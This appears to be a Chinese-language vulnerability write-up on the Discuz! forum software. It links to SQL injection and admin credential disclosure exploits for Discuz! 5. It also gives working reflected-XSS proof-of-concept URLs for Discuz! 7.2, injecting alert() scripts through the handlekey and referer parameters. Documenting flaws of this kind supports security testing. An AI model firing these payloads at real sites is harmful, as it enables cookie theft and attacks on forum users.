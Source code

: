 https://www.exploit-db.com/exploits/2859/

https://www.seebug.org/vuldb/ssvid-5482

Discuz! 5.0.0 RC1 SQL injection PoC

http://blog.sina.com.cn/s/blog_56fb0f050100055g.html

Discuz! 5.0.0 GBK SQL Injection / Admin Credentials Disclosure Exploit

https://www.seebug.org/vuldb/ssvid-16732

Discuz! 5 SQL injection Exploit

https://www.seebug.org/vuldb/ssvid-5263
## 反射型XSS漏洞
### 漏洞描述：跨站脚本攻击漏洞，恶意攻击者往web页面插入恶意脚本代码，而程序对于用户输入内容未过滤，当用户浏览该页之时，嵌入其中web里面的脚本代码会被执行，从而达到恶意攻击用户的特殊目的。窃取cookie、放蠕虫、网站钓鱼……。涉及URL如下：
#### /include/global.func.php—>演示1
http://ip/admincp.php?infloat=yes&handlekey=123

http://ip/logging.php?infloat=yes&handlekey=123

http://ip/api/uchome.php?infloat=yes&handlekey=123
#### logging.php—>演示2
http://ip/logging.php?action=logout&formhash=b1abb3e2&referer=
#### source/function/function_core.php—>演示3
http://ip/member.php?mod=logging&action=login&referer=javascript://www.discuz.net/

http://ip/connect.php?receive=yes&mod=login&op=callback&referer=javascript://www.discuz.net/
### 测试步骤与截图：
各漏洞演示如下，共有3个功能或插件存在反射型XSS
#### 演示1：Discuz 7.2 反射型xss漏洞1
访问以下链接即可触发XSS：

http://ip/admincp.php?infloat=yes&handlekey=123);alert(/xss/);//

http://ip/logging.php?infloat=yes&handlekey=123);alert(/xss/);//

http://ip/api/uchome.php?infloat=yes&handlekey=123);alert(/xss/);//

参考链接：http://www.bubuko.com/infodetail-2094064.html
#### 演示2：Discuz 7.2 反射型xss漏洞2
访问如下链接即可触发

http://ip/logging.php?action=logout&formhash=b1abb3e2&referer=%27-alert%28document.domain%29-
